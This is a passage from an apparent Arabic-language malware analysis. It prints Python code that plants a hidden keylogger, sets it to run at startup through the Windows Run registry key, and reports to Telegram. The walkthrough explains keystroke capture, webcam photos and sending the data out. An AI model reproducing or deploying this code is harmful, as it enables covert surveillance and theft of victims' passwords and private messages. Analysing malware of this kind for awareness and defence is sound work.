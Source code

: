 ```python
with open(keylogger_path, "w", encoding="utf-8") as f:
    f.write(keylogger_script)

reg_key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Run", 0, winreg.KEY_SET_VALUE)
winreg.SetValueEx(reg_key, "SystemService", 0, winreg.REG_SZ, f"pythonw {keylogger_path}")
winreg.CloseKey(reg_key)

subprocess.Popen(["pythonw", keylogger_path], creationflags=subprocess.CREATE_NO_WINDOW)
send_to_telegram_split(f"⌨️ تم زرع ملف تتبع الكيبورد بنجاح على {device_name} وسيعمل في الخلفية.")
```

- **إيه اللي بيحصل؟**:
  - الكود بيعمل برنامج صغير اسمه **كيلوجر**، هدفه يسجل كل ضغطة كيبورد تعملها.
  - بيعمل الحاجات دي خطوة خطوة:
    1. **بيكتب الكيلوجر**:
       - بيعمل ملف إسمه `system_service.py` في مجلد مخفي (`C:\Users\Ahmed\AppData\Roaming`).
       - الملف ده فيه كود كامل عشان يشتغل لوحده:
         - بيستخدم مكتبة `keyboard` عشان يراقب كل مفتاح بتضغط عليه.
         - لو ضغطت حرف زي "a"، بيضيفه لحاجة إسمها `logged_keys`.
         - لو ضغطت مفتاح زي "Space"، بيحط مسافة. لو "Enter"، بيحط سطر جديد. لو "Backspace"، بيمسح آخر حرف.
         - لو ضغطت مفاتيح زي "Ctrl" أو "Alt"، بيحطها بين قوسين زي `[ctrl]`.
         - كل ما تكتب 100 حرف، بيبعت اللي كتبته لتيليجرام في رسالة زي:
           ```
           [تتبع الكيبورد من DESKTOP-12345]:
           hello my password is MyPass123 [enter] how are you [space] [ctrl]
           ```
         - وبيفتح الكاميرا عشان يصوّرك ويبعت الصورة مع الرسالة.
         - بيحفظ كل حاجة في ملف إسمه `keylog.txt` في الـ Temp لو حصل مشكلة.
    2. **بيضمن إنه يشتغل دايمًا**:
       - بيفتح الريجستري بتاع الويندوز (زي دفتر الجهاز اللي بيقول إيه اللي يشتغل لما تفتح الجهاز).
       - بيحط الملف `system_service.py` في مكان إسمه `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` تحت إسم "SystemService".
       - بيحط أمر إنه يشتغل باستخدام `pythonw`، وده نوع بايثون بيشتغل من غير ما يفتح نافذة، يعني مش هتشوف حاجة.
    3. **بيشغّل الكيلوجر على طول**:
       - بيستخدم `subprocess.Popen` عشان يشغّل الملف ده في الخلفية.
       - بيستخدم `CREATE_NO_WINDOW` عشان ما يظهرش أي نافذة.
    4. **بيبعت تأكيد**:
       - بيبعت رسالة لتيليجرام يقول إن الكيلوجر اتزرع وهيشتغل، زي:
         ```
         ⌨️ تم زرع ملف تتبع الكيبورد بنجاح على DESKTOP-12345 وسيعمل في الخلفية.
         ```
- **ليه خطير؟**:
  - الكيلوجر ده زي جاسوس قاعد يسجل كل كلمة بتكتبها، من باسورداتك لرسايلك الشخصية.
  - بيصوّرك كمان، يعني اللي بيستلم الرسايل دي هيعرف إنت مين وإنت بتعمل إيه.
  - وبما إنه في الريجستري، هيفضل شغال كل ما تفتح الجهاز لحد ما تمسحه.

---

#### 4. **الواجهة وشاشة القفل**
